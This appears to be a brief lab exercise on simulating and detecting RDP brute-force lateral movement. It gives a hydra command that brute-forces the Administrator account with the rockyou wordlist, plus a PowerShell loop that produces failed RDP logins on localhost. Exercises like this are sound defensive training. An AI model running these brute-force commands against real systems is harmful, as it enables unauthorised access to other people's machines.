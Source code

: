 # 🛡️ Scenario 2: Lateral Movement via RDP Brute Force

## 🎯 Objective

Simulate and detect an RDP brute-force attack using stolen credentials—a common lateral movement technique by threat actors.

---

## 🧪 Attack Simulation

### ✅ From Kali Linux (Attacker):
```bash
hydra -t 4 -V -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_VM_IP>

                              Or
for ($i = 0; $i -lt 5; $i++) {
    cmdkey /add:127.0.0.1 /user:fakeuser /pass:wrongpass
    mstsc /v:127.0.0.1
}
